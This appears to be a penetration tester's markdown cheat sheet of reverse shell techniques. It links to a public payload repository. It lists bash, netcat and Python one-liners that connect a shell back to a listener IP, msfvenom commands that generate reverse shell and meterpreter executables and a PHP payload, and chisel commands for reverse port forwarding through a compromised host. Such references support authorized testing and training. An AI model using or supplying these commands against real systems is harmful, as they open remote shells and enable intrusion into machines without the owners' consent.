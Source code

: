 ##### windows - linux - specific languages shells


##### links
- [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

 ###### reverse shells
```bash
# bash-1
bash -i >& /dev/tcp/192.168.45.151/4444 0>&1
# bash-2
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.151 443 >/tmp/f
# python-1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.2.6",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```
- msfvenom generate
```bash
# stageless reverse shells windows
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# stageless reverse shells linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.180 LPORT=4444 -f elf > shell-x86.elf
# staged meterpreter windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# php
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=4444 -f raw > shell.php
```

- starting chisel
```bash
# start server on local
./chisel server --reverse -p 8000
# start client on target
./chisel client 10.10.14.7:8000 R:3306:127.0.0.1:3306
```